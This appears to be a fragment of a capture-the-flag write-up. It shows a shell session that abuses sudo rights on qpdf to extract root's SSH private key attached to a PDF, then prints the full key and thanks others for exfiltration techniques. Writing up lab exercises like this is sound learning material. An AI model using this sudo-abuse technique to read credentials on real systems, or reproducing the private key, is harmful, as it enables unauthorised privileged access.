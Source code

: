 ```c
consuela@iclean:/tmp$ sudo /usr/bin/qpdf --show-attachment=id_rsa root.pdf
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAaAAAABNlY2RzYS
1zaGEyLW5pc3RwMjU2AAAACG5pc3RwMjU2AAAAQQQMb6Wn/o1SBLJUpiVfUaxWHAE64hBN
vX1ZjgJ9wc9nfjEqFS+jAtTyEljTqB+DjJLtRfP4N40SdoZ9yvekRQDRAAAAqGOKt0ljir
dJAAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBAxvpaf+jVIEslSm
JV9RrFYcATriEE29fVmOAn3Bz2d+MSoVL6MC1PISWNOoH4OMku1F8/g3jRJ2hn3K96RFAN
EAAAAgK2QvEb+leR18iSesuyvCZCW1mI+YDL7sqwb+XMiIE/4AAAALcm9vdEBpY2xlYW4B
AgMEBQ==
-----END OPENSSH PRIVATE KEY-----
```

Shout-out to `ar0x` and `Crow` for different techniques on how to exfiltrate the `id_rsa` key!
